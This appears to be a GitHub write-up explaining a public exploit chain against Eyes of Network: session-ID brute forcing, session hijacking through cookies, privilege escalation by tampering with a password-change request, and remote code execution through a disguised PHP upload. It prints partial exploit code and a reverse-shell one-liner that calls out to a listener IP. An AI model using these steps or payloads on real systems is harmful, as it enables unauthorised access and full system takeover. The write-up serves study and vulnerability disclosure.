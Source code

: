 #  How the Exploit Works
The Eyes of Network has a vulnerability in version 5.10 that has a session ID between 8 and 10 digits. This is done using a brute force method, meaning that you would start searching using session ID 10000000 and iterate up to 9999999999. This can be seen in this code: 

```python
    if rep.content.find(bytes) !=-1:
        a = int(a) + 1
        if int(a) == 99999999999:
            print("No Session_id available ... ")
            break
    else:
        print ("Yepa !")
        print("")
        print('\x1b[6;30;42m' + '[+] session_id FOUND ! '  + a + '\x1b[0m')
        print("")
        break
```
Where rep.content is the response from a GET request using the current iteration of the session ID. From here there are many different exploits available and we ran through the following ones to test these vulnerabilities: 

## Eyes of Network Access without Credentials 
Logging in using the obtained session ID is fairly straight forward. The following image is using the developer tools built into google chrome, you can navigate to the application tab and click on cookies:
![image](https://user-images.githubusercontent.com/71412992/112726764-838b2c80-8ef5-11eb-84cb-9cee09076cd6.png)

You will need to fill in all of these fields and put in the session ID that was obtained. The other fields are filled out based on the type of user the session ID belongs too. This would require trial and error or some inside knowledge of how Eyes of Network user information. 

Once the fields are filled out properly, you refresh the cookies and then the page and you will now be on the main dashboard page of the site with the same access as the user whos session ID you used. 

## Privilege Escalation 
This exploit involves allowing a restricted user to gain access to an admin account. Once a user has logged in, (This can be done using the session ID or with real credentials if the user has access to the site) this user will navigate to the profile tab on the eyes of network portal. Once here they have to option to change their password. The put in and password they would like. 

Next using a proxy interrupter, they interrupt the POST request to change the password:

![image](https://user-images.githubusercontent.com/71412992/112727172-8424c280-8ef7-11eb-8abf-9956d3f645e6.png)

Using the Admin session ID, user_name,user_id, group_id the user is able to change the password of the admin immediately and now has access to that account through regular log in. 

## Root Access to Eyes of Network OS (CentOS)
The last vulnerability that we explored with this exploit was gaining root access on the Eyes of Network operating system. This vulnerability could result in massive loss of data and destruction.  The following code will POST a .php file disguised as a .XML file to a directory on system. A GET request is then called on that file which will cause it to execute: 

```python
postreq=requests.post(burp0_url, headers=burp0_headers, cookies=burp0_cookies, data=burp0_data, verify=False)
rep2=postreq

...

requests.get(burp0_url, headers=burp0_headers, cookies=burp0_cookies, verify=False)

```
The php file will give a specified IP and Port interactive rights to the OS: 

```
<?php exec("/bin/bash -c 'bash -i > /dev/tcp/192.168.0.11/9999 0>&1'");
```
Here we can see that the file has been successfully uploaded 

![image](https://user-images.githubusercontent.com/71412992/112731199-3fefed00-8f0c-11eb-8485-9e4b1914000c.png)

During the time the code is running you will listen on the port specified in the code (on the machine that with the specified IP). Once the GET request is run you will be logged in as a user. 
Moving to the /tmp directory you are then able to do a os.execute in order to escape interpreters and gain root access. This can all be seen here: 
![image](https://user-images.githubusercontent.com/71412992/112731497-f7393380-8f0d-11eb-932d-c97a413d1e6a.png)

It should be noted that the ITSM module needs to be installed on Eyes of Network for this portion of the explot to work as this is what allows XML upload. 


## References 

[1] Eyes of Network website https://www.eyesofnetwork.com/en

[2] Exploit Guide and walkthrough  https://ariane.agency/site/index.php/2021/02/23/quand-tu-trouves-une-0day-pendant-un-audit-d/

[3] Explot repository https://github.com/ArianeBlow/exploit-eyesofnetwork5.3.10/blob/main/PoC-BruteForceID-arbitraty-file-upload-RCE-PrivEsc.py

[4] Eyes of Network Community Discussion https://github.com/EyesOfNetworkCommunity/eonweb/issues/87

[5] Eyes of Network Eonweb repository for ITSM https://github.com/EyesOfNetworkCommunity/eonweb

[6] Linux preivileges https://guif.re/linuxeop

[7] Exploit Fix https://github.com/EyesOfNetworkCommunity/eonweb/commit/6d1be13ba36fedfc8cdcbe9c30e99d4e0ca7db1b?fbclid=IwAR0X3qOSDuq1Ke_uAHDjKriPMAfSDWhi4IU6QZWKTuo-Zj4R1sV_TG7hPTo#

